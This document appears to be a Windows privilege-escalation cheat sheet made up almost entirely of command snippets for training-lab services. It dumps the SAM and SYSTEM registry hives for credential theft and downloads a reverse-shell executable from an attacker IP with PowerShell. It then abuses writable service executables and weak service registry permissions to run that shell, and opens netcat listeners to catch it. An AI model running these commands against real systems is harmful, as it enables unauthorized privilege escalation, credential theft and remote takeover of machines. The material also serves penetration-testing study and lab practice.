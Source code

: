 ```
reg query HKCU\environment /v *

# Add Key
reg add "hkcu\control panel\<key>"

# Delete Key
reg delete "hkcu\control panel\<key>" /f

# Add Value
reg add "hkcu\control panel\<key>" /v subs /t reg_sz /d twothousand /f

# Search
reg query HKCU /f <key> /s /e

# Save
reg save hklm\sam c:\sam
reg save hklm\system c:\system
```

## Insecure Service Executables
```
accesschk.exe /accepteula -uwsv user "C:\program Files"

wmic service list brief | findstr /i fileperm

sc query | findstr /i fileperm

powershell wget <IP>:<Port>/reverse_shell.exe -outfile .\reverse_shell.exe

# Copy the reverse shell to the C:\program Files path and overwrite the existing service executable with the reverse shell

# Start the Service
net start filepermsvc

# Start Listener
nc -nlvp 1234
```

## Weak Registry Permissions
```
wmic service list brief | findstr /i reg

# Query Registry Services
sc qc regsvc

reg query HKLM /f regsvc

reg query HKLM\System\CurrentControlSet\Services\regsvc /v *

# Add the reverse shell in Registry
reg add HKLM\System\CurrentControlSet\Services\regsvc /v <value name> /t <type> /d <reverse shell location> /f

# Start Service
net start regsvc

# Start Listener
nc -nlvp 1234
```
